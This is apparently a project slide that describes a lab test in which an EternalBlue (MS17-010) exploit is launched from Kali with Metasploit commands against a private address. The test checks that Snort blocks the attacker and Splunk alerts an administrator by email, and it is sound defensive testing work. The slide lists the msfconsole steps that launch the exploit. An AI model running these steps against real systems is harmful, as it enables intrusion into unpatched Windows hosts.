

Test Case 2: Eternalblue Response - Splunk
1) 	Set up Eternalblue exploit on kali
1.1) msfconsole
1.2) search ms17-010
1.3) use 0
1.4) set RHOSTS 172.16.1.145
1.5) Exploit
2) Alert Generated by snort
3) 	Attacker machine is added to the block lists
4) 	Exploit is complete, but no session was created
5) 	Splunk Alerts are triggered
6) 	Email is send to the tanjared6@gmail.com(administrator)
Expected Outcome: Splunk alert was triggered, and responded by sending an email to tanjared6@gmail.com
Actual Outcome: Splunk alert was triggered, and responded by sending an email to tanjared6@gmail.com
Result: Pass

32